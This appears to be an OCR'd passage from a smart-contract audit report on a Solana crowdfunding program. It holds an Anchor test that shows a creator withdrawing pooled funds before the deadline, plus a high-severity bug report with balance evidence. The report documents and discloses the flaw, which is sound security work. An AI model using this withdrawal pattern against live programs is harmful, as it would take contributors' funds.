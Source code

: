 ````soldity
    [withdrawFundPDA.toBuffer(), provider.wallet.publicKey.toBuffer()],
    program.programId
  );
  await program.methods
    .contribute(contribution)
    .accounts({
      fund: withdrawFundPDA,
      contributor: provider.wallet.publicKey,
      contribution: withdrawContributionPDA,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

  const fundBalanceBefore = await provider.connection.getBalance(withdrawFundPDA);
  const creatorBalanceBefore = await provider.connection.getBalance(creator.publicKey);

  // Withdraw before deadline
  await program.methods
    .withdraw()
    .accounts({
      fund: withdrawFundPDA,
      creator: creator.publicKey,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

  const fundBalanceAfter = await provider.connection.getBalance(withdrawFundPDA);
  const creatorBalanceAfter = await provider.connection.getBalance(creator.publicKey);

  console.log(`Fund balance before: ${fundBalanceBefore}, after: ${fundBalanceAfter}`);
  console.log(`Creator balance increased by: ${(creatorBalanceAfter - creatorBalanceBefore)/1000000000} SOL`);
});```
````

Output:

```javascript
========================================
🐛 BUG REPORT [HIGH]: No Deadline Check in Withdraw Function
----------------------------------------
Description: Creator can withdraw funds before the deadline, potentially stealing contributors' funds that should be refundable
Evidence: Successfully withdrew funds before deadline. Fund balance before: 537590960, after: 37590960. Creator balance increased by ~0.499995008 SOL
========================================
```

## Tools Used

- Anchor framework for testing
- Manual code review
